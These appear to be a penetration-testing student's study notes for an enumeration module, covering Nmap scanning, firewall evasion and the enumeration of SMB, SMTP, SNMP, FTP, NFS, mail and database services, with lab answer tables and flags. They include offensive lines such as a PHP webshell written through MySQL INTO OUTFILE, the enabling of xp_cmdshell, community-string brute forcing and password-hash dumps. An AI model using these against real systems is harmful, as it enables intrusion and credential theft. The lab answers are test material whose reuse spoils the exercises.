#### Tags: #PortScanning #TCPHandshake #UDPScanning #Netcat #Wireshark #ICMPUnreachable

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Lowest open TCP port via Netcat on host ending `.151`? | **53** |
| Highest open TCP port in range 1–10000? | **9389** |
| First open UDP port (other than 123) in range 150–200? | **161** |

#### Tags: #Lab #Quiz #Module6

---

### 6.4.3. Port Scanning with Nmap

**Nmap** (built by Gordon "Fyodor" Lyon) is the de-facto standard port scanner. Many of its features need `sudo`/raw socket access to work.

**Traffic footprint matters.** Before scanning blindly, the module demonstrates monitoring how much traffic a scan actually generates via `iptables` counters. `iptables` is Linux's built-in packet filtering tool (basically the OS-level firewall), and you can use it here not to block anything, but just to count bytes going to/from a specific target so you can see exactly how much noise your scans make:
```bash
sudo iptables -I INPUT 1 -s 192.168.50.149 -j ACCEPT
sudo iptables -I OUTPUT 1 -d 192.168.50.149 -j ACCEPT
sudo iptables -Z   # zero the counters

nmap 192.168.50.149          # default top-1000-ports scan → ~72KB traffic
nmap -p 1-65535 192.168.50.149   # full port range scan → ~4MB traffic

sudo iptables -vn -L   # check packet/byte counters
```
Extrapolate that out and a full TCP+UDP scan of a /24 network could mean 1000+ MB of traffic. Balance thoroughness against bandwidth/stealth needs, this matters more in red-team engagements where staying under a SOC's radar is the whole point, and matters less in a regular pentest.

**Key Nmap scan types:**

```bash
# SYN / "stealth" scan (default when you have raw socket privileges, i.e. running as root/sudo, which lets Nmap craft custom network packets directly instead of going through the OS's normal networking layer)
sudo nmap -sS 192.168.50.149
```
Sends a SYN, gets a SYN-ACK back, but never completes the handshake with a final ACK. Faster, and historically didn't show up in application-level logs, the kind web servers and services write to record connections (though modern firewalls do log it now, "stealth" is really just a legacy name at this point).

```bash
# TCP Connect scan (used when you don't have raw socket privileges)
nmap -sT 192.168.50.149
```
Completes the full handshake via the OS socket API. Slower, but doesn't need elevated privileges to run.

```bash
# UDP scan
sudo nmap -sU 192.168.50.149

# Combined UDP + SYN scan for a fuller picture
sudo nmap -sU -sS 192.168.50.149
```

**Network sweeping** (finding live hosts across a range):
```bash
# Ping-style sweep (also probes TCP 443/80 + ICMP timestamp, not just ICMP echo)
nmap -sn 192.168.50.1-253

# Save in greppable format (a structured text layout designed so grep can pull specific lines out easily later)
nmap -v -sn 192.168.50.1-253 -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2

# Sweep for a specific port across a range (more accurate than a ping sweep)
nmap -p 80 192.168.50.1-253 -oG web-sweep.txt
grep open web-sweep.txt | cut -d" " -f2

# Top-20-ports scan with OS/version detection + scripts + traceroute
nmap -sT -A --top-ports=20 192.168.50.1-253 -oG top-port-sweep.txt
```
"Top ports" ranking comes from `/usr/share/nmap/nmap-services`, based on how frequently that port shows up open across internet-wide research scans.

**OS fingerprinting:**
```bash
sudo nmap -O 192.168.50.14 --osscan-guess
```
Nmap compares TTL (Time to Live, a value included in every network packet that different operating systems set to different default numbers) and TCP window-size quirks against a known fingerprint database. These subtle differences act like fingerprints that let Nmap guess which OS is on the other end. `--osscan-guess` forces a best-guess answer even when Nmap isn't highly confident. **Not always accurate**, firewalls and proxies can rewrite these values in transit and throw the fingerprint off.

**Manual TTL-based OS identification (without nmap -O):**

You don't always need Nmap's OS detection engine. A raw ping or ICMP echo reply's TTL field tells you the OS family:

| Default TTL | OS |
|-------------|-----|
| 64 | Linux / macOS / most Unix |
| 128 | Windows |
| 255 | Cisco / network devices (varies) |

```bash
ping -c 1 <TARGET>
# PING 10.129.x.x: 64 bytes from 10.129.x.x: icmp_seq=0 ttl=128 time=...
# TTL 128 = Windows
```

This works even when `-O` fails (not enough open/closed ports for a proper fingerprint) or when you do not have raw socket access to run a SYN scan. Keep in mind TTL decrements by 1 for every hop, so a TTL of 127 reaching you still means Windows (128 minus one hop).

**Useful output and filter flags:**
```bash
# --open: only show ports in "open" state (hides closed and filtered) -- much cleaner output
sudo nmap --open -p- <TARGET> -T4

# -p- : shorthand for -p 1-65535 (all ports)
# Count open ports from output without manual counting:
sudo nmap --open -p- <TARGET> -T4 | grep "/tcp" | wc -l

# Extract hostname from SMB service info (-p 445 -sV reports "Service Info: Host: HOSTNAME")
sudo nmap -p445 <TARGET> -sV | grep "Service Info: Host:"
```

**Saving results:**
```bash
# Grepable format (already known)
nmap -oG output.txt <TARGET>

# XML format (machine-readable, convertible to HTML)
sudo nmap --open -p- <TARGET> -oX report.xml

# Convert XML to a browsable HTML report
xsltproc report.xml -o report.html
firefox report.html       # open in browser
```
The HTML report is useful for sharing findings with clients or for your own reference: it tables all open ports, services, and scan metadata in a readable format.

**Banner grabbing / service+script scan:**
```bash
nmap -sT -A 192.168.50.14      # full aggressive scan: OS, version, scripts, traceroute
nmap -sV 192.168.50.14         # just version detection, no extras
```
Note: banners can be deliberately faked by admins to mislead attackers, don't take them as gospel.

**Direct banner grabbing with netcat (for high/unusual ports):**
```bash
nc -nv <TARGET> <PORT>
# -n = no DNS resolution, -v = verbose
```
Faster than running a full nmap scan when you just want to see what a specific port says for itself. Service banners on unusual ports often contain version strings, credentials, or flags that would not appear in a standard nmap scan. Example: a service on port 31337 returning a banner directly:
```
(UNKNOWN) [10.129.2.49] 31337 (?) open
220 HTB{pr0F7pDv3r510nb4nn3r}
```

**Nmap Scripting Engine (NSE):**
```bash
# Run a specific script
nmap --script http-headers 192.168.50.6

# Get info/usage for a script
nmap --script-help http-headers

# Run all scripts in the "discovery" category (broad sweep; takes longer but thorough)
sudo nmap -p80 <TARGET> --script discovery
```
Scripts live in `/usr/share/nmap/scripts/`, same location referenced again in [[13. Locating Public Exploits#13.3.3. Nmap NSE Scripts|13.3.3]] for finding exploit-capable scripts specifically.

The `discovery` category includes `http-enum`, which checks for common web paths including `robots.txt`. When http-enum reports a robots.txt file, pull it with curl, it sometimes contains disallowed paths that expose functionality or even flags:
```bash
# http-enum finds: |_  /robots.txt: Robots file
curl http://<TARGET>/robots.txt
```

> 🔍 **Worth remembering generally:** when NSE reports a discovered file or directory, always fetch it manually with curl. The scan tells you it exists; curl tells you what is in it.

**From Windows** (no Nmap available, LOLBAS/PowerShell style):
```powershell
# Single-port check
Test-NetConnection -Port 445 192.168.50.151

# Quick-and-dirty port sweep of ports 1-1024
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```

> ⚡ **Modern tool:** the full-range `nmap -p 1-65535` sweep above can take a while to finish. [[Rustscan]] scans all 65k ports in seconds and pipes the open ones straight into `nmap` for the actual `-sC -sV` work, same manual scan types from above still apply once `nmap` takes over.

#### Tags: #Nmap #NSE #SYNScan #TCPConnectScan #UDPScan #NetworkSweep #OSFingerprinting #BannerGrabbing #PowerShellPortScan #Iptables #TTL #XMLOutput #xsltproc #NetcatBanner #HttpEnum

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| SYN scan + grep, host with port 25 open (3rd octet 50)? | **192.168.50.8** |
| TCP scan, host running a WHOIS server (3rd octet 50)? | **192.168.50.251** |
| First four open TCP ports on the DC via RDP+PowerShell? | **53, 88, 135, 139** |
| Flag on a high-range TCP port service (Module Exercises VM #1)? | **OS{804a2550c916db91426e39b66a8a1ba9}** |
| Host with web server titled "Under Construction" (NSE discovery script)? | **OS{2b63ab794c2362053d595f317f7397bf}** |

#### Tags: #Lab #Quiz #Module6

---

### 6.4.3b. Nmap Firewall and IDS/IPS Evasion

> 🔖 *HTB supplementary -- not covered in the Offsec Module 6 content*

Firewalls and IDS/IPS systems can block or distort Nmap scans. These techniques work around common defences.

---

**Host discovery flags:**

| Flag | What it does |
|------|--------------|
| `--disable-arp-ping` | Skip ARP-based host discovery (useful when on the same subnet but ARP is filtered/monitored) |
| `-Pn` | Skip host discovery entirely: assume all targets are up. Required when ICMP is blocked and the host appears "dead" to a normal scan. |

```bash
# Common combination for scanning through a firewall:
sudo nmap -Pn --disable-arp-ping -sV --top-ports 10 <TARGET>
```

---

**DNS version detection via UDP + NSE:**

DNS (port 53 UDP) often passes through firewalls. The `dns-nsid` NSE script queries the DNS server for its BIND version string:
```bash
sudo nmap -Pn --disable-arp-ping -p53 -sU -sC <TARGET>
# PORT   STATE SERVICE
# 53/udp open  domain
# | dns-nsid:
# |_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
```
`-sU` = UDP scan, `-sC` = default scripts (includes dns-nsid). The BIND version can be cross-referenced against known CVEs.

---

**Source port spoofing to bypass firewall rules:**

Many firewalls allow inbound traffic sourced from port 53 (DNS) or port 20 (FTP-data) because those are expected reply ports for legitimate traffic. Spoofing your source port to 53 can make your scan packets look like DNS replies and slip through:

```bash
# Nmap source port spoof
sudo nmap -g 53 -Pn --disable-arp-ping --max-retries=1 -p- <TARGET>
# -g 53 = --source-port 53: send all Nmap packets from source port 53
# --max-retries=1: only retry each port once (speeds up scanning past many filtered ports)
```

When Nmap finds a port open that only responds to source-port-53 traffic, you can reach it directly with nc using the same trick:
```bash
sudo nc -nv -s <KALI_IP> -p 53 <TARGET> <PORT>
# -s <KALI_IP> = bind to this local IP
# -p 53 = use source port 53
# Result: you connect as if you were a DNS server -- the firewall lets it through
```



---

**`--max-retries` for speed through filtered networks:**

```bash
sudo nmap -g 53 --max-retries=1 -Pn -p- --disable-arp-ping <TARGET>
```
By default Nmap retries filtered ports several times waiting for a response that never comes, which slows the scan significantly on heavily filtered targets. `--max-retries=1` cuts that to one attempt and moves on, much faster at the cost of potentially missing intermittently open ports.

---

> 🔍 **Worth remembering generally:** the source port trick (`-g 53`) only works against firewalls with simplistic rules that allow traffic purely based on source port without doing full stateful inspection. Modern firewalls with proper stateful inspection catch it. But it is still a valid technique on older infrastructure and is worth trying before giving up on a filtered port.

> 🔁 **Similar to:** source port manipulation in [[19. Port Redirection and SSH Tunneling|Port Redirection and SSH Tunneling]] -- both exploit how network devices make routing/filtering decisions based on port numbers rather than connection context.

#### Tags: #FirewallEvasion #IDS #IPS #SourcePort #Pn #DisableArpPing #DnsNsid #Module6

---

### 6.4.4. SMB Enumeration

**SMB** has a long history of security issues (null sessions, which are connections made with no username or password at all, a legacy Windows behaviour that could let anyone browse shares anonymously; EternalBlue, the NSA exploit that powered WannaCry ransomware in 2017; and others). **NetBIOS** (TCP 139 + UDP ports) is a separate but closely related protocol, modern SMB doesn't strictly need it anymore, but NetBIOS-over-TCP (NBT) is kept around for backward compatibility, so the two tend to get enumerated together in practice.

```bash
# Basic port scan for SMB/NetBIOS
nmap -v -p 139,445 -oG smb.txt 192.168.50.1-254

# Dedicated NetBIOS name scanner
sudo nbtscan -r 192.168.50.0/24
```
NetBIOS names are often descriptive of a host's role, useful context to carry into later steps.

**Nmap NSE SMB scripts** live in `/usr/share/nmap/scripts/smb*`, e.g. `smb-os-discovery`, `smb-enum-shares`, `smb-enum-users`, `smb-enum-domains`, `smb-enum-groups`, `smb-brute`.

```bash
# OS discovery via SMB (only works if SMBv1 is enabled on target, which is legacy now)
nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152
```
Note: results here can be wrong (e.g. reported Windows 10 when the box was actually Windows 11), same "grain of salt" rule as OS fingerprinting above. That said, this method surfaces AD-specific info (domain, forest, FQDN) that plain OS fingerprinting can't get to, and tends to blend into normal traffic a bit better too.

**From Windows, enumerating shares with `net view`:**
```cmd
net view \\dc01 /all
```
`/all` includes the admin shares (the ones ending in `$`, e.g. `ADMIN$`, `C$`, `IPC$`).

**rpcclient: null session enumeration**, speaks raw RPC over SMB and reaches domain info the NSE scripts often skip:
```bash
# Null session (no creds)
rpcclient -U "" TARGET
rpcclient -U "%" TARGET    # alternative null session syntax

# With credentials
rpcclient -U 'DOMAIN\username%password' TARGET
```

Useful commands inside the rpcclient shell:
```bash
querydominfo          # domain name, server role, total users + groups
netshareenum          # list shares (same as smbclient -L)
netsharegetinfo SHARENAME   # per-share path + permissions
enumdomusers          # list domain user accounts
enumdomgroups         # list domain groups
querydispinfo         # users with display names + descriptions (sometimes has plaintext passwords in description field)
queryuser RID         # full detail on a specific user by RID
srvinfo               # server platform + OS version info
lookupnames username  # resolve a username to its SID
```

> 🔍 **Worth remembering generally:** `querydispinfo` is worth running on every DC or Samba server you touch. Lazy admins sometimes put temporary passwords or helpdesk notes directly in the user Description field, it's exposed here without needing LDAP access.

> 🔧 **Technique:** null sessions work far more reliably against legacy Windows (2008/2012) and Samba servers than against hardened modern AD. On a fully patched Windows Server 2022 domain controller, expect `ACCESS_DENIED` on most commands and need valid domain creds to go further.

> 🔁 **Similar to:** [[16. Password Attacks|Password Attacks]], RID cycling via `enumdomusers` here is the same user-enumeration groundwork used in password spraying later.

> 🔗 **HackTricks**: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-smb](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-smb/README.md), the definitive reference for everything SMB, well worth bookmarking for when a target needs more than the basic enumeration covered here.

> ⚡ **Modern tool:** [[NetExec]] rolls the port scan, NetBIOS name lookup, and OS/share discovery above into one consistent command. Unlike `nbtscan`/`net view`, it works the same way against a whole subnet at once, not just one host.

#### Tags: #SMB #NetBIOS #Nbtscan #SmbOsDiscovery #NetView #AdminShares #NSE #rpcclient #NullSession

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| How many hosts have port 445 open (VM Group 1)? | **10** |
| The three admin shares reported by `net view` against dc01? | **ADMIN$, C$, IPC$** |
| Comment on SMB share revealing flag for user `alfred` (via enum4linux)? | **OS{bd98612b02563cdb4844f8d713d80529}** |

#### Tags: #Lab #Quiz #Module6

---

### 6.4.5. SMTP Enumeration

SMTP supports two commands worth knowing: **VRFY** (verify an email/user exists) and **EXPN** (list mailing-list membership). Both can leak valid usernames if the mail server hasn't disabled them.

```bash
nc -nv 192.168.50.8 25
# VRFY root       → 252 (accepted, doesn't 100% confirm existence but will attempt delivery)
# VRFY idontexist → 550 (mailbox unavailable/unknown)
```

**Automating VRFY checks with a small Python script:**
```python
#!/usr/bin/python
import socket
import sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = sys.argv[2]
s.connect((ip, 25))

banner = s.recv(1024)
print(banner)

user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
result = s.recv(1024)
print(result)

s.close()
```
```bash
python3 smtp.py root 192.168.50.8
python3 smtp.py johndoe 192.168.50.8
```

**From Windows**, `Test-NetConnection` can only confirm the port is open, it can't actually interact with SMTP. To issue real VRFY commands you need the Telnet client:
```powershell
# Requires admin rights, or grab telnet.exe from another machine if you don't have them
dism /online /Enable-Feature /FeatureName:TelnetClient
```
```cmd
telnet 192.168.50.8 25
VRFY goofy
VRFY root
```

**smtp-user-enum**, same VRFY/EXPN/RCPT TO interaction as the manual script above, but against a full wordlist in one run:
```bash
# VRFY method (most common)
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t TARGET

# EXPN method (mailing list expansion, less commonly supported)
smtp-user-enum -M EXPN -U wordlist.txt -t TARGET

# RCPT TO method (works when VRFY/EXPN are disabled; needs a valid From domain)
smtp-user-enum -M RCPT -U wordlist.txt -t TARGET -D example.com

# Adjust concurrency + timeout for slow targets
smtp-user-enum -M VRFY -U wordlist.txt -t TARGET -m 60 -w 20
```
If VRFY returns `502 Not Implemented`, always try RCPT TO before giving up on user enumeration.

> 🔧 **Technique:** on some servers VRFY responses aren't reliable for every username. Run against a username you know is bogus (e.g. `aaaaaaaaa`) alongside a real guess and compare response codes to baseline the server's behaviour before treating hits as definitive.

> ⚡ **Modern tool:** [[Smtp-user-enum]] does the same `VRFY`/`EXPN`/`RCPT TO` interaction as the manual Python script and `telnet` sessions above, just against a whole wordlist in one command instead of one guess per run.

> 🔍 Full breakdown of why `252` isn't a clean yes/no, and why testing a bogus username alongside a real guess matters: [[Reconnaissance & Enumeration (Breakdowns)#SMTP: why VRFY's response code isn't a clean yes/no|Command Breakdowns]]

> 🧭 Quick lookup: [[Reconnaissance & Enumeration (Decision Tree)|Decision Tree]]

#### Tags: #SMTP #VRFY #EXPN #RCPTTO #UserEnumeration #PythonScripting #TelnetClient #SmtpUserEnum

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| SMTP response code for `VRFY root` (via Netcat)? | **252** |

#### Tags: #Lab #Quiz #Module6

---

### 6.4.6. SNMP Enumeration

**SNMP** is UDP-based, stateless, and prone to being misconfigured. Versions v1/v2/v2c have **no encryption** at all (creds/data can be sniffed on the local network) and weak auth, default `public`/`private` community strings are still genuinely common to find in the wild. Older SNMPv3 only supported weak DES-56 encryption; newer implementations support AES-256.

> **War story:** OffSec once found the *same* SNMP public/private community strings reused across an entire class B network of client-gateway routers at a network integration company. Since SNMP can read and write router configs, that one reused string compromised not just the company itself but **all of their downstream clients** too. Moral of the story: never reuse "management" credentials across an entire fleet of devices.

**The SNMP MIB tree** (Management Information Base, a hierarchical database of every value SNMP can monitor or control on a device) contains specific items identified by **OIDs** (Object Identifiers, basically numerical addresses like a postcode that each point to one specific piece of info). Some useful Windows-relevant OIDs:

| OID | Meaning |
|---|---|
| `1.3.6.1.2.1.25.1.6.0` | System Processes |
| `1.3.6.1.2.1.25.4.2.1.2` | Running Programs |
| `1.3.6.1.2.1.25.4.2.1.4` | Processes Path |
| `1.3.6.1.2.1.25.2.3.1.4` | Storage Units |
| `1.3.6.1.2.1.25.6.3.1.2` | Software Name |
| `1.3.6.1.4.1.77.1.2.25` | User Accounts |
| `1.3.6.1.2.1.6.13.1.3` | TCP Local Ports |

**Finding SNMP services:**
```bash
# Nmap UDP scan for SNMP (port 161)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# onesixtyone, brute force community strings across a host list
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips

onesixtyone -c community -i ips
```

**Querying with `snmpwalk`** (needs the community string, usually `public`):
```bash
# Enumerate the entire MIB tree
snmpwalk -c public -v1 -t 10 192.168.50.151

# Enumerate Windows user accounts
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.4.1.77.1.2.25

# Enumerate running processes
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.2.1.25.4.2.1.2

# Enumerate installed software
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.2.1.25.6.3.1.2

# Enumerate open TCP listening ports
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.2.1.6.13.1.3
```
Cross-referencing running processes against installed software versions is a great way to spot exactly which vulnerable app version is running on a box.

> ⚡ **Modern tool:** [[Braa]] queries the same MIB OIDs as `snmpwalk` above, but across dozens or hundreds of hosts in one process. Worth reaching for the moment SNMP enumeration needs to cover more than one device, exactly the "reused community string across a whole class B network" war story above.

> 🔍 Full breakdown of why community strings work the way they do, and why the specific OID values matter: [[Reconnaissance & Enumeration (Breakdowns)#SNMP: community-string brute force, then OID-walking|Command Breakdowns]]

> 🧭 Quick lookup: [[Reconnaissance & Enumeration (Decision Tree)|Decision Tree]]

#### Tags: #SNMP #MIBTree #Snmpwalk #Onesixtyone #CommunityStrings #OID

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Full name of the SNMP server process (running process list)? | **snmp.exe** |
| First Interface name listed with `-Oa` (hex→ASCII) flag? | **Software Loopback Interface 1.** |

#### Tags: #Lab #Quiz #Module6

---

### 6.4.7. FTP Enumeration (Port 21)

FTP (File Transfer Protocol) is a reliable first target during service enumeration, especially for anonymous access or misconfigured file servers. Two-step approach: banner the service, then test for anon login.

```bash
# Version + banner
sudo nmap -sV -p21 TARGET

# NSE scripts for FTP
nmap -p21 --script=ftp-anon,ftp-syst,ftp-brute TARGET

# Verbose packet-level banner grab (useful when comparing against firewall evasion techniques)
sudo nmap -p21 -sV --disable-arp-ping -n --packet-trace TARGET
```

**Anonymous login check** (very common on misconfigured FTP servers):
```bash
ftp TARGET
# Username: anonymous
# Password: anonymous  (anything works if anonymous access is enabled)
```

Inside the FTP session:
```bash
ls -la            # list files including hidden
cd dirname        # navigate directories
get filename      # download a file to local CWD
put filename      # upload a file (if write permissions exist)
!cat filename     # run a LOCAL shell command (! prefix = runs on your Kali, not the server)
```

For **non-standard ports**, the `ftp` client accepts a port argument: `ftp TARGET PORT`.

> 📸 Screenshot: FTP anonymous login success banner + `ls -la` output showing world-readable files or config files

> 🔍 **Worth remembering generally:** FTP stores files with the same ACLs as the underlying OS. If anonymous is enabled and the FTP root includes config dirs, backup files, or service account home directories, it's a free credential find. Always look for `.bash_history`, `*.conf`, `*.ini`, `*.bak`, `id_rsa`.

> 🔁 **Similar to:** [[18. Linux Privilege Escalation#18.2.1|18.2.1 Config file hunting]] (same credential-in-config pattern, different location) and 6.4.3's `nc -nv` banner grabbing.

#### Tags: #FTP #Anonymous #NmapNSE #BannerGrabbing #Module6

---

### 6.4.8. NFS Enumeration (Ports 111/2049)

NFS (Network File System) turns up during service enumeration and is worth a closer look than just the port being open. [[18. Linux Privilege Escalation#18.5.9|18.5.9]] covers the `no_root_squash` privilege escalation angle. This section covers the **enumeration** perspective: find what's exported, mount it, and look for useful data.

**Discover what's exported** (queries portmapper, no authentication needed):
```bash
showmount -e TARGET

# Nmap NSE scripts for NFS
sudo nmap -p111,2049 --script=nfs-ls,nfs-statfs,nfs-showmount TARGET
```

**Mount a discovered share:**
```bash
mkdir /mnt/nfs
sudo mount -t nfs TARGET:/SHAREPATH /mnt/nfs/ -v
ls -la /mnt/nfs/
```

**Search the mounted share for credentials:**
```bash
grep -rn "password\|passwd\|secret\|token" /mnt/nfs/ 2>/dev/null
find /mnt/nfs -name "*.conf" -o -name "*.ini" -o -name "*.bak" -o -name "id_rsa" 2>/dev/null
```

When done: `sudo umount /mnt/nfs`

> 📸 Screenshot: `showmount -e` listing available exports + which client IPs are allowed; then `ls -la /mnt/nfs/` after mounting

> 🔍 **Worth remembering generally:** NFS exports sometimes include directories that are world-readable at the OS level, even if they're not web-accessible. Support ticket archives, user home backups, and dev environment configs turn up this way. Always check recursively.

> 🔁 **Similar to:** [[18. Linux Privilege Escalation#18.5.9|18.5.9 NFS no_root_squash]], same mount commands, but here you're looking for data rather than a privesc path.

#### Tags: #NFS #showmount #MountedShares #Enumeration #Module6

---

### 6.4.9. IMAP / POP3 Enumeration (Ports 110/143/993/995)

These protocols don't appear anywhere in the core Offsec curriculum. IMAP and POP3 are email retrieval protocols: POP3 downloads and usually deletes, IMAP syncs and keeps messages server-side. In pentesting contexts, the value is in **reading email** to find credentials, internal comms, or MFA tokens.

```bash
# Port and version scan
nmap -p110,143,993,995 -sC -sV TARGET
```

The NSE default scripts (`-sC`) pull SSL certificate info automatically. Check the `commonName` and `organizationName` fields in the cert output, they often reveal internal FQDNs or hostnames useful for further enumeration.

**IMAPS (SSL/TLS, port 993), interactive session:**
```bash
openssl s_client -connect TARGET:imaps
# Scroll past the cert dump; wait for the capability banner (e.g. "* OK Dovecot ready")
```

IMAP commands (prefix each with a tag like `tag0`, `tag1` etc., the server echoes the tag back to confirm completion):
```bash
tag0 LOGIN username password     # authenticate
tag1 LIST "" "*"                 # list all mailboxes/folders
tag2 SELECT "INBOX"              # open a folder
tag3 FETCH 1 (BODY[])            # retrieve full body of message 1
tag4 FETCH 1:* (FLAGS)           # list all messages with read/unread flags
tag5 LOGOUT
```

**IMAP (plaintext, port 143), via curl if you already have credentials:**
```bash
curl -k 'imap://TARGET' --user username:password
curl -k 'imap://TARGET/INBOX' --user username:password -v
```

**POP3 (plaintext, port 110):**
```bash
telnet TARGET 110
```
```
USER username
PASS password
LIST            # list messages with message numbers and sizes
RETR 1          # retrieve full message 1
DELE 1          # delete message 1 (permanent, don't do this on a client's server)
QUIT
```

**POP3S (SSL, port 995):**
```bash
openssl s_client -connect TARGET:pop3s
# Same POP3 commands after the TLS handshake
```



> 📸 Screenshot: openssl s_client IMAPS connection showing cert details (CN + org) then successful `tag1 LIST "" "*"` output

> 🔍 **Worth remembering generally:** on a target with IMAP open, check whether credentials found elsewhere (SSH, SMB, web login) reuse here too. IMAP servers often share AD credentials, so a compromised domain account might have emails containing admin passwords, MFA codes, or helpdesk ticket threads with cleartext creds.

> 🔧 **Technique:** `curl` handles both IMAP and POP3 and is faster for scripted retrieval when you already have credentials. `openssl s_client` is better for interactive exploration when you don't know the server's capabilities yet.

#### Tags: #IMAP #POP3 #IMAPS #POP3S #EmailEnum #openssl #curl #Dovecot #Module6

---

### 6.4.10. MySQL Remote Enumeration (Port 3306)

MySQL shows up as a service on many Linux boxes. Even without an injection point, a remote connection with found credentials often gives database contents, credential tables, or a path to command execution via `INTO OUTFILE`.

```bash
# Version detection
nmap -p3306 -sV TARGET

# NSE scripts for MySQL
nmap -p3306 --script=mysql-info,mysql-databases,mysql-tables,mysql-users TARGET
```

**Remote client connection:**
```bash
mysql -u USERNAME -pPASSWORD -h TARGET
# Note: -p immediately followed by password with no space
# Or omit the password to be prompted interactively:
mysql -u root -p -h TARGET
```

Inside the MySQL shell:
```sql
show databases;
use DATABASENAME;
show tables;
describe TABLENAME;
select * from TABLENAME;

-- Find columns named like credentials across all databases
select table_schema, table_name, column_name
  from information_schema.columns
  where column_name like '%pass%';

-- Dump MySQL authentication hashes
select user, password from mysql.user;             -- MySQL 5.6 and older
select user, authentication_string from mysql.user; -- MySQL 5.7+
```

**File read/write (requires FILE privilege on the MySQL user):**
```sql
select load_file("/etc/passwd");

-- Write a webshell (if MySQL user has FILE and web root is writable)
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";
```

> 📸 Screenshot: `mysql -u root -h TARGET` successful connection banner + `show databases;` listing interesting database names

> 🔍 **Worth remembering generally:** `information_schema` is always present and always readable. Running a column-name search for `%pass%` or `%secret%` finds credential tables without manually enumerating each database. Start there before browsing individual tables.

> 🔧 **Technique:** MySQL auth hashes vary by version, identify the format before cracking: mode 200 (sha256crypt, MySQL 8), mode 11200 (MySQL323, very old), mode 3200 (bcrypt-wrapped). The `authentication_string` column prefix tells you (`$A$` = sha256crypt, `*` = older SHA1-based).

> 🔁 **Similar to:** [[10. SQL Injection Attacks|SQL Injection Attacks]] (same SQL knowledge, different access method); [[18. Linux Privilege Escalation#18.2.1|18.2.1]] (wp-config.php pattern for finding MySQL credentials in the first place).

#### Tags: #MySQL #Database #RemoteClient #FileRead #SQLEnum #InformationSchema #Module6

---

### 6.4.11. MSSQL Enumeration (Port 1433)

MSSQL is the Windows-world equivalent of MySQL, common in AD environments. Key vectors here: `xp_cmdshell` for OS command execution and basic remote client access. (Deeper MSSQL attack techniques, impersonation and linked-server pivoting, live in [[16. Password Attacks|Password Attacks]] where they extend the credential-attack story instead.)

```bash
# Version + instance detection
nmap -sV -p1433 TARGET

# NSE bundle, covers version, empty-password check, NTLM info, table listing, hash dump
sudo nmap -sV -p1433 \
  --script="ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,\
ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes" \
  --script-args="mssql.instance-port=1433,mssql.username=sa,mssql.password=,\
mssql.instance-name=MSSQLSERVER" TARGET
```

**impacket-mssqlclient** (interactive MSSQL shell from Kali):
```bash
impacket-mssqlclient USERNAME:PASSWORD@TARGET
impacket-mssqlclient USERNAME:PASSWORD@TARGET -windows-auth   # Windows/AD auth (Kerberos/NTLM)
```

Inside the MSSQL shell:
```sql
SELECT name FROM sys.databases;          -- list all databases
USE DATABASENAME;
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';
SELECT * FROM TABLENAME;

-- Enable xp_cmdshell if it's disabled (requires sysadmin)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Execute OS commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'net user';
```

> 📸 Screenshot: `impacket-mssqlclient` connection banner showing SQL Server version + successful `SELECT name FROM sys.databases` output

> 🔍 **Worth remembering generally:** `xp_cmdshell` is disabled by default in modern MSSQL but re-enabling it only requires `sysadmin` privilege. If you have `sa` or another sysadmin account, enabling it takes two `EXEC sp_configure` commands. Always check if it's already on before doing the enable dance.

> 🔧 **Technique:** the `-windows-auth` flag makes impacket use NTLM/Kerberos instead of SQL Server native auth. Without it you're doing SQL Server auth (the `sa` login). Use `-windows-auth` when you have domain credentials rather than a SQL Server login.

> 🔁 **Similar to:** [[10. SQL Injection Attacks|SQL Injection Attacks]] (same SQL knowledge base, different access method).

> 🔗 **HackTricks**: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-mssql-microsoft-sql-server/README.md)

#### Tags: #MSSQL #impacket #xpCmdshell #DatabaseEnum #WindowsAuth #SQLServer #Module6

---

### 6.4.12. Oracle TNS Enumeration (Port 1521)

Oracle TNS is the connection broker for Oracle Database. Less common in CTFs than MySQL/MSSQL but turns up in enterprise targets. The main tools are `odat.py` (automated enumeration) and `sqlplus` (interactive client).

**odat (Oracle Database Attacking Tool):**
```bash
# Install if not present
sudo apt install odat

# All modules in sequence: SID discovery, credential brute-force, privesc checks, file read/write
./odat.py all -s TARGET

# Just SID discovery
./odat.py sidguesser -s TARGET

# Credential brute-force against a known SID
./odat.py passwordguesser -s TARGET -d SIDNAME
```

**sqlplus** (Oracle's native SQL client):
```bash
# Install Oracle Instant Client + sqlplus
sudo apt install oracle-instantclient-sqlplus

# Connect: format is user/pass@host/SID
sqlplus USERNAME/PASSWORD@TARGET/XE

